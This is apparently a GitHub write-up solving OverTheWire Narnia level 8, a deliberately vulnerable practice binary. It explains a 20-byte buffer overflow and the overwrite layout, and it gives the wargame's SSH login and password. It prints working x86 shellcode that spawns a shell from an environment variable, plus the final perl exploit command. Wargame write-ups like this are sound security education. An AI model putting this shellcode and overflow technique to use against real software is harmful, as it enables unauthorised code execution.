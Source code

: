 # Level 8
ssh narnia8@narnia.labs.overthewire.org -p 2226  
Pass: 1aBcDgPttG  
An initial run of the binary shows the following:  
<img width="418" alt="Screen Shot 2024-04-01 at 7 09 15 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/91b5823e-0c3d-4dc9-9024-3188504b3ea4">  

In the C source file we see that the program takes a command line argument and then passes it to func.  
We see that we are basically copying the character array we pass into the program into "bok" until it hits a null byte. We see that "bok" is allocated 20 bytes.  It is clear that there is a buffer overflow vulnerability because the string we input does not have to stop at 20 bytes but after that "bok" will be full and we will start overwriting the address of argv[1] and it wont be pointing to our payload anymore. Almost acts like a canary.  

So basically we want to 1. overwrite bok with 20 junk bytes 2. preserve address of argv[1] 3. 4 junk bytes for ebp 5. addr of a enviornment variable we control   

Make a file /tmp/getenvvaraddr.c in the tmp directory to find the address of the enviornment variable we are going to make:
<img width="609" alt="Screen Shot 2024-04-01 at 8 27 27 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/dbf7d601-e9bb-4fdb-b24a-dbd32493cbf5">  

Now make an enviornment variable with the shellcode we used from the previous challenges stored in it:
export LVL8="$(perl -e 'print"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')"  

Now compile the c file we made and run it with the name of this enviornment variable.  
$ gcc -m32 getenvvaraddr.c -o getenvvaraddr  
$ ./getenvvaraddr LVL8  
This gives us the following output:  
addr of LVL8: 0xffffdfa5  


narnia8@gibson:/narnia$ perl -e 'printf("%8x\n", 0xffffaed7 - 12)'
ffffaecb  
./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA"') | xxd   

./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA" . "\xcb\xae\xff\xff" . "AAAA" . "\xa5\xdf\xff\xff"')  


